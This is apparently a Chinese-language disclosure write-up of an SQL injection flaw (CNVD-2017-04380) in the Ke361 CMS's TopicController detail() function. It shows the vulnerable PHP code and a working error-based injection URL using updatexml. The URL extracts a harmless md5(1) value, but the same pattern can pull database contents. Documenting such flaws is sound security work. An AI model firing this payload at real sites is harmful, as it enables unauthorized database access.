 # Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380

# Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380

## 漏洞描述

Ke361 TopicController.class.php 文件中 detai() 函数中存在 SQL注入漏洞

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 Application/Home/Controller/TopicController.class.php, 漏洞函数详情

![image-20220518153711939](/images/202205181537005.png)

```
public function detail(){
         $id = I('id');
         $where['tid'] = $id;
         $TopicModel = new TopicModel();
         $topicInfo = $TopicModel->info($id);
        //  if(empty($topicInfo)){
        //      $this->error('您查看的专题不存在哦！');
        //  }
  			//  这里注释掉，默认不存在专题
         M('Topic')->where('id='.$id)->setInc('hits');
         $this->setSiteTitle($topicInfo['title']);
         $goods = $this->lists(D('Goods'),$where);
         foreach ($goods as $k=>$v){
             $goods[$k]['url'] = U('/goods/'.$v['id']);
         }
         $this->assign('goods',$goods);
         $this->assign('topic',$topicInfo);
         $this->display();
     }
```

这里接收参数 id，然后执行SQL语句, 通过报错注入可以获取数据库数据

```
/index.php?s=/Topic/detail/id/1)%20%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![image-20220518153727479](/images/202205181537557.png)

![image-20220518153736954](/images/202205181537004.png)

